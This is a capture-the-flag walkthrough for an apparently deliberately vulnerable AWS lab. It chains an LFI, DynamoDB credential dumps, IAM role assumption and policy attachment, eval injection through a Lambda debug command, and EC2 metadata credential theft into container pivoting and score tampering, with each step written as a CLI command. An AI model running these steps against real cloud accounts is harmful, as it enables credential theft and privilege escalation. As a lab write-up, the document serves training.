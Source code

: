 # Walkthrough
![Diagram](diagram.png)

## Goal
120875ABAB must improve their review score to a value higher than 5.

## Steps
1. An employee web app displays review scores. It is hosted in a Docker container on an EC2 instance, but is unknown at this point.
2. The app is vulnerable to an LFI, and allows to retrieve a DynamoDB access key (**flag 1**). The code of file `app.php` also yields a valuable piece of information: a different message is displayed to employees with a score higher than 5.
3. Using the access key, dump the database using `aws dynamodb scan --table-name GOD_LoginEmployee` to obtain HR credentials (**flag 2**).
4. With the credentials, log back into the web app to access all employee reviews. This reveals the public documentation file `infrastructure.md` in an S3 bucket containing `GOD_svc_iam`'s access key (**flag 3**).
5. Using the access key, perform IAM reconnaissance:

```
aws iam list-roles --profile svc_iam
```
The role `GOD_IAM-Manager-Role` can be assumed by `GOD_svc_iam`:
```
"Statement": [
    {
        "Effect": "Allow",
        "Principal": {
            "AWS": "arn:aws:iam::274186580685:user/GOD_svc_iam"
        },
        "Action": "sts:AssumeRole"
    }
]
```

```
aws iam list-role-policies --role-name GOD_IAM-Manager-Role --profile svc_iam
aws iam get-role-policy --role-name GOD_IAM-Manager-Role --policy-name GOD_AttachCustomPolicies --profile svc_iam
```

The role `GOD_IAM-Manager-Role` has the role policy `GOD_AttachCustomPolicies` allowing to attach to a user the managed policies matching the pattern `GOD_Custom**`.

```
aws iam list-policies --profile svc_iam
aws iam get-policy-version --policy-arn arn:aws:iam::274186580685:policy/GOD_CustomDebugEmployeeReview --version-id v1 --profile svc_iam
```

The managed policy `GOD_CustomDebugEmployeeReview` awards privileges to get and invoke a lambda named `GOD_DebugEmployeeApp`.

```
aws sts assume-role --role-arn 'arn:aws:iam::274186580685:role/GOD_IAM-Manager-Role' --role-session-name iam --profile svc_iam
```

Assume the role `GOD_IAM-Manager-Role` to get an access key as the role.

```
aws iam attach-user-policy --user-name GOD_svc_iam --policy-arn arn:aws:iam::274186580685:policy/GOD_CustomDebugEmployeeReview --profile god_iam_manager

```

Using this key, attach the managed policy to `GOD_svc_iam`.

Then, retrieve the Lambda code (**flag 4**):

```
aws lambda get-function --function-name 'GOD_DebugEmployeeApp' --region us-east-1 --profile svc_iam
```

6. The Lambda has the function `get_private_key` which gets the key from Secrets Manager. While not directly accessible, the `DEBUG` command will `eval` the content of `debug_cmd`.

Instead of exfiltrating the key via HTTP, you can leverage slicing to restrict the length of the output like so:
```
aws lambda invoke --function-name 'GOD_DebugEmployeeApp' --payload '{ "command": "DEBUG", "debug_cmd": "get_private_key()[1][0:200]" }' --cli-binary-format raw-in-base64-out --profile svc_iam file1
aws lambda invoke --function-name 'GOD_DebugEmployeeApp' --payload '{ "command": "DEBUG", "debug_cmd": "get_private_key()[1][200:400]" }' --cli-binary-format raw-in-base64-out --profile svc_iam file2
```

The `infrastructure.md` file contains the username and port to use when sshing into the container hosting the employee web app (**flag 5**).

7. Once ssh'd, you can find out you are inside of a container when looking at processes (e.g. apache is PID 1). Then, the file `status.sh` reveals the Instance Metadata Service (IMDS), implying the container is running on an EC2 instance and also the existence of a second container for managers.

While the IMDS endpoint is accessible from the EC2, it can also be reached by the container since the EC2 (the host) routes the traffic.

An EC2 feature allows an instance to be provisioned by a script when created. This script is available in instance user data, available through IMDS:

```
curl http://169.254.169.254/latest/user-data/

#!/bin/bash

# Install dependencies
apt-get update
DEBIAN_FRONTEND=noninteractive apt-get upgrade -y
DEBIAN_FRONTEND=noninteractive apt-get install -y \
    unzip \
    awscli

# Setup docker
curl -fsSL https://get.docker.com -o get-docker.sh
sh get-docker.sh

# Retrieve source code from bucket
cd /opt
aws s3 cp s3://mod-a854a8410c7b4c22-gods3corporationbucket-1hfcjmr55yemz/source.zip /opt/source.zip
unzip source.zip

# Retrieve debug ssh keys (will be used when building containers)
aws secretsmanager get-secret-value --secret-id GOD_EmployeeAppDebugKey --region us-east-1 > employee_app_secrets.json
aws secretsmanager get-secret-value --secret-id GOD_ManagerAppDebugKey  --region us-east-1 > manager_app_secrets.json

# We don't need the source anymore
aws s3 rm s3://mod-a854a8410c7b4c22-gods3corporationbucket-1hfcjmr55yemz/source.zip

# Run cleanup script
sh /opt/clean.sh

# Get nginx conf (will be used by the nginx container)
aws s3 cp s3://mod-a854a8410c7b4c22-gods3corporationbucket-1hfcjmr55yemz/nginx.conf /opt/nginx.conf

# Start containers
docker compose up --build -d
```

This reveals that the EC2 instance has privileges to interact with resources. At this point, you can either push the AWS CLI into the container to use the EC2's privileges, or simply get the access key of its assumed role to use on your host:

```
curl http://169.254.169.254/latest/meta-data/iam/security-credentials/GOD_Ec2Role
```

Then, get the nginx configuration and the debug key for the manager container:

```
aws s3 cp s3://mod-a854a8410c7b4c22-gods3corporationbucket-1hfcjmr55yemz/nginx.conf nginx.conf --profile ec2
aws secretsmanager get-secret-value --secret-id GOD_ManagerAppDebugKey --region us-east-1 --profile ec2 > manager_app_secrets.json
```

The nginx config shows a manager web app accessible at the same IP but from `/manager-reviewing/`. The debug key is another private key to ssh into the manager container from the employee one.

Transfer the key on the employee container or port forward to ssh into the manager container (**flag 6**).

8. Perform reconnaissance on the container. The file `/var/www/html/libs/dynamo.php` contains another set of DynamoDB access key, but with privileges on the tables `GOD_LoginManager` and `GOD_ReviewEmployee`.

9. Remember the goal of improving 120875ABAB's review score. Use yet another `dynamodb scan` command to dump the the manager's credentials. Authenticate into the web app at `/manager-reviewing/` and change 120875ABAB's score to a value higher than 5. Log back into the `/employee-review/` as 120875ABAB (**flag 7**).